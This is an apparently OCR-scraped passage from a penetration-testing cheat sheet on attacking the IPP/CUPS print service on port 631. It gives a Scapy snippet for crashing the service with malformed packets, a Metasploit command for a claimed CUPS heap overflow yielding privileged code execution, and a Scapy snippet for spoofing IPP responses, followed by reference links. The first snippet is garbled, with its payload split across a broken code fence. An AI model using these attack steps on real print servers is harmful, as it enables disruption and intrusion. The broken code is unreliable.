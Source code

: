     ```python
    from scapy.all import *
    packet = IP(dst="<target_ip>")/TCP(dport=631)/Raw(load="\x00
    ```

\x01\x02\x03\x04") send(packet) \`\`\`

* **Description:** Sends malformed IPP requests to crash or disrupt the print service.

### Exploits

#### CUPS Heap Overflow

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/unix/misc/cups_overflow
    ```
* **Description:** Exploits a heap overflow vulnerability in CUPS to execute arbitrary code with elevated privileges.

#### IPP Response Spoofing

*   **Tool:** \[\[Scapy]]

    ```python
    from scapy.all import *
    packet = IP(dst="<target_ip>")/TCP(dport=631)/Raw(load="fake_response")
    send(packet)
    ```
* **Description:** Spoofs IPP responses to manipulate the output or behavior of print jobs.

## Resources

| **Website**           | **URL**                                             |
| --------------------- | --------------------------------------------------- |
| RFC 2910              | https://tools.ietf.org/html/rfc2910                 |
| RFC 2911              | https://tools.ietf.org/html/rfc2911                 |
| CUPS Documentation    | https://www.cups.org/documentation.php              |
| IPP Everywhere        | https://www.pwg.org/ipp/everywhere.html             |
| Nmap Scripting Engine | https://nmap.org/nsedoc/                            |
| Metasploit Framework  | https://www.metasploit.com                          |
| Wireshark User Guide  | https://www.wireshark.org/docs/wsug\_html\_chunked/ |
| Scapy Documentation   | https://scapy.readthedocs.io/en/latest/             |
| Hydra                 | https://github.com/vanhauser-thc/thc-hydra          |
| Linux man-pages       | https://man7.org/linux/man-pages/                   |

